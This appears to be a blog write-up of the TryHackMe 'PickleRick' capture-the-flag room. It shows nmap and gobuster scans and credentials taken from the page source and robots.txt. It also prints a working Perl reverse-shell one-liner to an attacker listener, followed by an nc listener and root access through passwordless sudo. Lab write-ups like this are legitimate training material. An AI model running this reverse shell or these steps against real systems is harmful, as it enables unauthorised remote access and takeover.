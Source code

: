 +++
categories = ["Hugo"]
date = "2020-08-23"
description = "PickleRick TryHackMe Writeup"

featuredalt = ""
featuredpath = "date"
linktitle = ""
title = "PickleRick TryHackMe Writeup"
slug = "PickleRick TryHackMe Writeup"
type = "post"
+++

![LazyAdmin TryHackMe](https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg)


## Nmap Scan

```
nmap -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 13:25 EDT
Nmap scan report for 10.10.9.58
Host is up (0.39s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f0:a7:c7:d0:a7:0b:25:6c:d6:be:d9:5a:93:1c:d4:12 (RSA)
|   256 4f:16:df:a2:16:a0:44:05:bb:f5:f9:90:5f:54:fd:c4 (ECDSA)
|_  256 b6:cf:99:03:97:02:a8:47:39:ef:d0:06:df:66:a7:47 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.28 seconds
```

## From source code

```

    Note to self, remember username!

    Username: R1ckRul3s

```


## Gobuster scan 1

```
gobuster dir -u $ip -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.9.58
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/24 13:25:57 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
********* /robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/05/24 13:28:05 Finished
===============================================================
```

```
From /robots.txt


`
Wubbalubbadubdub
`
```


## Gobuster scan 2


```
gobuster dir -u $ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.9.58
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php,html
[+] Timeout:        10s
===============================================================
2020/05/24 13:34:09 Starting gobuster
===============================================================
/index.html (Status: 200)
********/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
Progress: 1075 / 220561 (0.49%)^Z
```


Go to /login.php

use username from source code
password from robots.txt


we can't use <cat> in the server

so let's do a reverse shell

```
command line : perl -e 'use Socket;$i="10.9.2.162";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```

**host : nc -lnvp 9999**

ls there is one key

**cd /home/rick** {there is second key}

**sudo -l** {we can access root without any password}

**sudo su**

**cd /root {3rd key}**































